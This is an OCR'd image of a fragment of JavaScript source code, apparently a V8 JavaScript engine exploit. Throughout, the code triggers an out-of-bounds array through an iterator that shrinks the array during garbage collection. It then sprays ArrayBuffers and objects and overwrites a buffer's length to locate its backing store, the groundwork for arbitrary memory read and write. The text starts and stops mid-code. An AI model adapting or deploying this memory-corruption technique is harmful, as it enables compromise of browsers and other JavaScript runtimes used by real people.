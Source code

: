 ```
      let result = 1.1;
    this.counter++;
      if (this.counter &gt; maxSize) {         
     oobArray.length=1;    // !=0 void from be huishou by GC,Elements will point to a null pointer
    for(let i=0;i&lt;100;i++)
    {
        let array=new ArrayBuffer(0x512);
        let obj={'a':0x1234,'b':0x5678};
        arrays.push(array);
        objs.push(obj);
        //%DebugPrint(array);    
    }        
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });

let backing_store;
let kbitfield;
let buf_index;
for(let i=0;i&lt;=maxSize;i++){let x=oobArray[i]}; //GC


//find ArrayBuffer in the shot
for(let i=0;i&lt;maxSize;i++)
{
    let val=ct.f2i(oobArray[i]);
    if(val===0x51200000000)
    {
        backing_store=i+1;
        kbitfield=backing_store+1;
        console.log("[*]find target ArrayBuffer in oobArray number ["+i+"]");
        oobArray[i]=ct.i2f(0xbeaf00000000);
        break;
    }
}

for(let i=0;i&lt;100;i++)
{    
    //console.log(arrays[i].bytelength);
    if(arrays[i].byteLength===0xbeaf){

           console.log("[*]find target ArrayBuffer number ["+i+"]");
        buf_index=i;    
        let tmp=new Float64Array(arrays[buf_index],0,0x10);
        tmp[0]=ct.i2f(0xdeadbeef);
        break;
    }    
}

let obj_index;
let obj_offset;
//find Objects

for(let i=0;i&lt;maxSize;i++)
{
    let val=ct.f2i(oobArray[i]);
    if(val===0x123400000000)
    {
        obj_offset=i;
```